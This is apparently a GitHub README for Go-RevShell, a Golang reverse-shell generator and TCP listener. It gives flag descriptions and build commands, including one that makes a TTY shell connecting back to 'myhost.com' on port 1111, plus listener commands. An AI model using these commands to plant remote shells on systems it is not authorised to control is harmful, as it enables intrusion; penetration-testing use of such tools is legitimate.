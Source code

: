 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a tcp listener. PTY RevShell not ready.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)


## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
  -t string
        Template to use to generate the reverse shell. Available : "native", "tty". (default "native")
```

### Build a reverse shell

* Build a native shell for linux server : ```go run main.go -s linux```
* Build a TYY shell for linux server : ```go run main.go -t tty -s linux```
* Build a TYY shell for linux server, with client ip and port : ```go run main.go -t tty -s linux -i myhost.com -p 1111```
* Build a native shell for windows server : ```go run main.go -s windows```

### Attach to reverse shell

* Listen to port 1111 ```go run main.go -l 1111```
* Listen to port 3412 ```go run main.go -l 3412```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Todo List

* More tests across differents os
* Fix pty shell
* Add Windows payloads for pty eventually
* Anon screenshots

**[`^        back to top        ^`](#)**
